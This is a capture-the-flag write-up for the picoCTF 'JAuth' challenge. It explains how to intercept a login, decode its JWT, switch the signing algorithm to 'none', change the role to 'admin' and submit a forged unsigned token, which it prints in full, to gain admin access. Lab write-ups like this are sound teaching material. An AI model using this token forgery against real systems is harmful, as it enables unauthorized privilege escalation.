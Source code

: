 # picoCTF - JAuth

The challenge description hints at a potential vulnerability within the website. Upon accessing the site, the initial step is to log in using the provided credentials:

- Username: test
- Password: Test123!

When intercepted through a proxy like Burp, the provided credentials generate a POST request.
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/68c05bc4-a7fa-48e9-9625-57fd8adede53)
Upon forwarding this request, a subsequent GET request is observed, revealing a token. Decoding this token using Base64 reveals its structure:
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/9bb19aa5-4515-4d08-8f12-07bd47e72692)
This token is a JWT (JSON Web Token) composed of three parts:

- Header: `{"typ":"JWT","alg":"HS256"}`
- Payload: `{"auth":1709903626143,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"user","iat":1709903626}`
- Signature: kXaVDzr3FEmIOGMSYYp6wo9PAWrkEU80WO3qzX9_ALA

The header specifies the algorithm used for token signing, which in this case is HS256. This algorithm is used to create a signature to ensures the token's integrity by preventing unauthorized modifications. However, JWT also permits the use of the "none" algorithm. By changing the algorithm to "none" in the header, the server no longer verifies the signature, allowing manipulation of the token.

Thus, by modifying the token's header to:
```
{"typ":"JWT","alg":"none"}
```
and adjusting the role to "admin" while retaining the same authentication ID as requested during login:
```
{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
we create a new token without including the signature. The final token appears as follows:
```
{"typ":"JWT","alg":"none"}{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
Upon Base64 encoding, the manipulated token yields:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzA5OTA1MDU0OTg1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC42MjYxLjk1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDk5MDUwNTV9.
```
This manipulated token successfully grants us administrative privileges, as illustrated by the obtained flag:

And we get our flag:

![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/bfd699e1-b43e-481f-86ad-bde0ca0723ab)
